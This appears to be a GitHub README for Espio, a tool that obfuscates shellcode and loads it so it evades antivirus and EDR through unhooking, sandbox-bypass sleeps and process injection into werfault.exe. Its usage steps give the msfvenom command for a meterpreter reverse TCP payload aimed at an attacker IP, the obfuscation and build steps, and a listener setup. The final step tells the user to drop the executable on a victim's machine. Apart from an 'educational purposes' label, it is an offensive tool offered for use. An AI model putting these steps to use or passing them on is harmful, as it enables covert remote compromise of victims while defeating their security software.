



# Espio (For Educational Purposes Only)
## Shellcode obfuscation tool to avoid AV/EDR.
[](https://www.python.org/) [](https://visualstudio.microsoft.com/vs/features/cplusplus/) [](https://opensource.org/licenses/MIT)

## Features
- Obfuscation - base64 encoding and XOR encryption with a randomly generated key.
- Sandbox Bypass - custom sleep function.
- DLL Unhooking - full unhook of ntdll.dll.
- Process Injection - injecting the payload to werfault.exe.

## Requirements
Espio requires [Python3](https://www.python.org/) and [Visual Studio](https://visualstudio.microsoft.com/vs/features/cplusplus/) to use.

## Usage
1. Clone the repository:
```bash
git clone https://github.com/Konis-Bros/Espio.git
```

2. Generate the shellcode. In this demonstration we will be using msfvenom in a kali machine:
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<Attacker IP> LPORT=1337 -f raw -o shellcode
```

3. Put the shellcode in the cloned repository and use the obfuscator.py tool to obfuscate it:
```bash
python3 obfuscator.py shellcode
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Note: Our shellcode then be obfuscated to **obfuscatedPayload.bin** with the **key.bin** key and saved in loader/Espio.

4. Open loader/Espio.sln, the Visual Studio solution file.

5. Build The project. Note that the executable file will be located at loader/x64/Debug/Espio.exe.

6. On the attacker's machine, listen for TCP connections on the defined port. In our case, run metasploit's multi/handler on port 1337.

7. Drop the executable onto the victim's machine and run it.

## Recommendations
- In step 2 and 6, create meterpreter session over HTTPS. For more information see [Meterpreter HTTP/HTTPS Communication](https://www.rapid7.com/blog/post/2011/06/29/meterpreter-httphttps-communication/).
- In step 5, change the build configuration from Debug to Release. Note that the executable file will now be located at loader/x64/Realease/Espio.exe.

## Tests
Espio was examined against:

### Windows Defender:



### Avira Prime:



### ANTISCAN:



## Authors and acknowledgments
- [@dkonis](https://github.com/dkonis) - Research & Development
- [@RonKon](https://github.com/RonKonis) - Development
- [@SheL3G](https://github.com/SheL3G) - Research

## License
Distributed under the MIT License. See LICENSE.txt for more information.
